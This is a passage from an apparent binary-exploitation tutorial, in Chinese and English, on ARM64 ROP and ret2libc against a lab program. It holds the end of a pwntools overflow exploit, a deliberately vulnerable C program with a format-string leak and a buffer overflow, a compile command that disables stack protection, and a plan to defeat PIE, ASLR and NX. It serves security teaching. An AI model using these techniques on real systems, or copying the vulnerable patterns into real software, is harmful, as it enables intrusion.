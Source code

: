 ```python

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
p.close()
```
## Ret2lib - 利用从栈中泄漏的printf绕过NX、ASLR和PIE
```c
#include <stdio.h>

void printfleak()
{
char buf[100];
printf("\nPrintf>\n");
fgets(buf, sizeof(buf), stdin);
printf(buf);
}

void bof()
{
char buf[100];
printf("\nbof>\n");
fgets(buf, sizeof(buf)*3, stdin);
}

void main()
{
printfleak();
bof();
}

```
编译**无 Canary**：
```bash
clang -o rop rop.c -fno-stack-protector -Wno-format-security
```
### PIE and ASLR but no canary

* Round 1:
* Leak of PIE from stack
* Abuse bof to go back to main
* Round 2:
* Leak of libc from the stack
* ROP: ret2system

### Printf leaks

Setting a breakpoint before calling printf it's possible to see that there are addresses to return to the binary in the stack and also libc addresses:
